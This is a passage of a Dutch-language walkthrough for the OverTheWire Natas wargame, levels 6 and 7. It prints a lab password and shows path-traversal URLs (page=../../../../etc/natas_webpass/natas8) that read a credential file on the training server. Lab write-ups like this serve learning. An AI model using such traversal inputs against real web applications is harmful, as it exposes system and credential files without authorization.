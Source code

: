 ![7](./img/7.png)

**?$secret = "FOEIUWGHFEEUHOFUOIU";?**

Now fill the secret in the form and you will get the following message:

**Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS**

## Level 6 → Level 7

``` html
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

Het zal iets te maken hebben met /etc/natas_webpass/natas8 en met natas7.natas.labs.overthewire.org/index.php?page=**???**

Je moest gewoon de volgende URL ingeven:

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

Je kan het ook op volgende manier doen:

http://natas7.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8

